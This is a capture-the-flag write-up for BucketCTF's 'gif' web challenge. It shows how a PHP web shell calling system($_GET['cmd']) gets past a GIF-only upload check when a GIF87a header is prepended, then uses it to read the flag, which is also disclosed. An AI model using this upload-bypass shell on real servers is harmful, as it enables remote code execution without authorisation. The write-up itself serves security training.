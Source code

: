 ```yaml
---
author: "Asad Ullah"
title: "Gif  - BucketCTF"
description: 
summary: Write-up on web challenge gif tackling a file upload vulnerability.
date: 2023-04-10T05:04:14+05:00
Section: write-ups
categories:
- writeup
- web
tags:
- bucketctf
- web exploitation
- upload vulnerability
- php
- payload
- gif

draft: false

---
```


{{< 
ctftime 
name="gif" 
difficulty="Hard"  
points="272"
category="Web"
>}}

&nbsp;

&nbsp;





## Description

I made a **secure** php web app where I can upload all my gifs. Some people on the internet told me to run it in a docker container just to protect it from my personal files, but who cares.

## Approach

At first, I uplaoded a Gif fie which was uploaded successfully then I attempted to upload a basic PHP payload and got error

![Untitled](/write-ups/ctftime/bucket/uploads.webp#center)

from the error we can see that the files are stored at `/uploads`.

As the server only permitted GIF files.I modified the payload by adding a GIF header, `GIF87a;` and it worked we got RCE.

```php
GIF87a;
<?php
    system($_GET['cmd'])
?>
```

&nbsp;

![Untitled](/write-ups/ctftime/bucket/upload.webp#center)

&nbsp;

We can now execute commands on the machine and access the flag: `/uploads/payload.php/?cmd=cat /flag.txt`

![Untitled](/write-ups/ctftime/bucket/flag.webp#center)

&nbsp;

&nbsp;

---

**Flag: `bucket{1_h4t3_PHP}`**

---

&nbsp;

&nbsp;
